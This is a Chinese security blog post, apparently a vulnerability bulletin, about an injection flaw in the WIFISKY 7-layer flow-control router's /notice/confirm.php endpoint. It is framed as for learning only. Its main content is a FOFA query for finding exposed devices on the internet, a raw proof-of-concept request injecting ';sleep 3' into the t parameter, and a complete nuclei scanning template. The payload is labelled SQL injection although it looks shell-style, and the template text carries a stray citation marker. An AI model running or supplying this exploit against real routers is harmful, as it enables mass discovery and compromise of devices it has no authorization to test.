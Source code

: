 #  WIFISKY-7层流控路由器SQL注入漏洞   
 HK安全小屋   2025-03-31 17:56  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
FOFA:  
```
app="WIFISKY-7层流控路由器"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI22HlT1EQQ1LicYCZL4B35kicCdz5zMT5eutmNHvu4saW7DF14HPOLbGzKgZf8JibjiaDHLkVhic1COvYg/640?wx_fmt=png&from=appmsg "")  
  
POC：  
```
GET /notice/confirm.php?t=;sleep%203 HTTP/1.1
Host: {{Hostname}}
User-Agent:Mozilla/5.0(WindowsNT10.0;Win64; x64)AppleWebKit/537.36(KHTML, likeGecko)Chrome/96.0.4664.93Safari/537.36
```  
  
t参数存在SQL注入漏洞，利用poc进行  
sql延时三秒测试，查看响应时间  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI22HlT1EQQ1LicYCZL4B35kicYiaT1UbdibXqiatP3Wu4ibn2JGhXoxdofL3EOic5tibdw3ynrtDT7WFqrRXA/640?wx_fmt=png&from=appmsg "")  
  
nuclei模板：  
```
id: wifisky-7-sql-injection

info:
  name: WIFISKY-7层流控路由器SQL注入漏洞
  author: Kimi
  severity: high
  description: WIFISKY-7层流控路由器的/notice/confirm.php接口存在SQL注入漏洞，攻击者可通过构造恶意请求导致时间延迟，从而判断漏洞存在[^6^]。
  tags: sql-injection, time-based

requests:
  - raw:
      - |
        GET /notice/confirm.php?t=;sleep%203 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0(WindowsNT10.0;Win64; x64)AppleWebKit/537.36(KHTML, likeGecko)Chrome/96.0.4664.93Safari/537.36

    matchers:
      - type: dsl
        dsl:
          - response.time > 3000
```  
### 说明：  
1. **id**  
：模板的唯一标识符，用于区分不同的模板。  
  
1. **info**  
：包含模板的基本信息，如名称、作者、严重性、描述和标签。  
  
1. **requests**  
：定义了用于测试的HTTP请求。  
  
1. **raw**  
：直接使用原始HTTP请求格式，便于精确控制请求内容。  
  
1. **matchers**  
：定义了如何判断响应是否表示漏洞存在。这里通过检测响应时间是否超过3秒来判断是否存在SQL注入漏洞  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
